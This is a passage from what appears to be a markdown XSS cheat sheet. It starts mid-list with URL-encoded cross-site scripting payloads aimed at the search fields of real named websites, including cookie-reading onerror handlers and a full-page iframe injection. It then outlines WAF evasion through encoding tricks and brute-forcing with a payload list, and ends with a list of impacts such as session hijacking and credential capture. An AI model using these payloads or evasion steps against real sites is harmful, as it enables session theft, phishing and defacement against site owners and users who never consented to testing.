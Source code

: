     https://www.nobullproject.com/collections/shop?q=%3Cimg%20src%2Fonerror%3Dprompt%28document.cookie%29%3E
8. try iframe injection
    https://www.nobullproject.com/collections/shop?q=%0D%22%3E%3Ciframe%20src%3D%22https%3A%2F%2Fwww.cia.gov%2F%22%20style%3D%22border%3A%200%3B%20position%3Afixed%3B%20top%3A0%3B%20left%3A0%3B%20right%3A0%3B%20bottom%3A0%3B%20width%3A100%25%3B%20height%3A100%25%22%3E
9.  
    https://www.nobullproject.com/collections/shop?q=%0D%3Cimg%20src%3DOnXSS%20onerror%3Dconfirm%28document.cookie%29%3E
    https://www.techtarget.com/whatis/search/query?q=%3Cimg%20src=OnXSS%20onerror=confirm(document.cookie)%3E
    https://summer.harvard.edu/search/?live_global%5Bquery%5D=%3Cimg%20src%2Fonerror%3Dprompt%28document.cookie%29%3E

    %0D<img src%3DOnXSS onerror%3Dconfirm(document.cookie)>

    

## Find XSS vulnerabilities
1. <i>test</i>
2. <i>hasanqoli</i>




## How to Exploit XSS?
1. Find the blacklisted/filtered characters.
    - Use XSS locators:  hasanqoli'';! - "<XSS>=&{()}
2. Observe what tags are blocked by WAF and which keywords are allowed.
    - script
    - iframe
    - img
    - body
    - a
3. Try Character Encoding
    - URL encoding
    - Double URL encoding 
    - UTF-8 Unicode encoding
    - Long UTF-8 Unicode encoding 
    - Hex encoding
4. Try XSS using HTML quote encapsulation
5. Try URL string evasion
6. Create the payload list according to the allowed keywords
7. Brute-force the application with the XSS payload list you just created



## What’s the Impact of XSS?
An attacker who exploits a cross-site scripting vulnerability is typically able to:
- Impersonate or masquerade as the victim user
- Hijack a user’s session
- Perform unauthorized activities
- Steal sensitive information
- Perform phishing attacks
- Capture the user’s login credentials.
- Capture keystrokes
- Deface the website.
- Inject trojan functionality into the website.
